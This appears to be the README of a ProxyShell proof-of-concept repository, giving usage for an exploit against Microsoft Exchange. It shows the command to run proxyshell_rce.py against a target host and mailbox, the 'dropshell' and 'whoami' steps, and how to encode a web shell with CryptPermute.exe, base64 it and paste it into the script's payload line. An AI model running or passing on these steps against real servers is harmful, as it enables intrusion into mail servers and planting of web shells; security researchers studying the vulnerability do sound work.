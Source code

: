 # proxyshell-poc

## base usage
py -3 proxyshell_rce.py -u ip|domain -e user@domain.com
> dropshell
> whoami

## generate CryptPermute content
1. execute `CryptPermute.exe shell.txt`, generate file `poc`.
2. base64 `poc` file.
3. Replace the contents of line 314 of the `proxyshell.py` file:
```
<t:Content>base64 `poc` file string</t:Content>
```
